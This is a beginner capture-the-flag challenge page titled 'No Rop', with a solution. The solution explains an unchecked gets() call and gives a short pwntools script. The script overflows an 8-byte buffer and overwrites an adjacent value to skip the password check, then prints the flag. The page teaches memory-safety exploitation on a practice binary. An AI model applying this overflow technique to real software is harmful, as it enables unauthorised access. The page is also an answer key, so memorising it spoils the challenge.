 # No Rop
### 📄 Description
A password is required to access. Do we really need it?

### ⚙ How to run it
```bash
./no_rop
```
<details>
    <summary>
        <h2>🔑 Solution</h2>
    </summary>
    
`gets()` is used to read the string, it's deprecated because it doesn't check string bounds. We can exploit this by filling the buffer with some chars.

```python
from pwn import *

context.binary = "./no_rop"

p = process()
p.sendline(b"A" * 8 + p64(1))
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

<h3> 🚩 Flag </h3>

```plain
Flag={hello_world_pwn}
```

</details>